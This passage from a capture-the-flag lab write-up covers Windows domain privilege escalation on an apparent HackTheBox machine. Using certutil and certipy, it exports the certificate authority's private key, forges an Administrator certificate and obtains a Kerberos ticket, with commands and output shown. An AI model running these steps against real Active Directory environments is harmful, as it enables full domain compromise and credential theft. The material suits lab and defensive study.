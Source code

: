 ```powershell
#C:\Programdata\Microsoft\Crypto\RSA NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
#                                    BUILTIN\Users:(I)(OI)(CI)(F)
#                                    BUILTIN\Pre-Windows 2000 Compatible Access:(I)(OI)(CI)(RX)
#                                    Everyone:(I)(OI)(CI)(RX)
#
#Successfully processed 1 files; Failed processing 0 files

```

We can try to read some typical things that we would want, perhaps root.txt or the SAM or SYSTEM hives, but we can't, this could be due to the SID for these being different.
```powershell
icacls C:\Users\Administrator\Desktop\root.txt
C:\Users\Administrator\Desktop\root.txt CERTIFICATE\Administrator:(F)
                                        NT AUTHORITY\SYSTEM:(I)(F)
                                        BUILTIN\Users:(I)(F)
                                        CERTIFICATE\Administrator:(I)(F)

```

We do have full access, but there's apparently some extra restriction going on with our access to this. However, if we run:
```powershell
certutil -store My
```

```
================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
CertUtil: -store command completed successfully.
```

We havea Siginature test passed. This means we can export the private key and do the attack we talked about earlier.

```powershell
certutil -exportPFX My 75b2f4bbf31f108945147b466131bdca ca.pfx
```

Download the .pfx and we can use certipy to forge our admin ticket.
```bash
certipy forge -ca-pfx ca.pfx -upn Administrator -dc-ip 10.10.11.71

faketime -f +8hr $HOME/.local/bin/certipy auth -pfx administrator_forged.pfx -dc-ip 10.10.11.71 -domain certificate.htb
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator'
[*] Using principal: 'administrator@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
```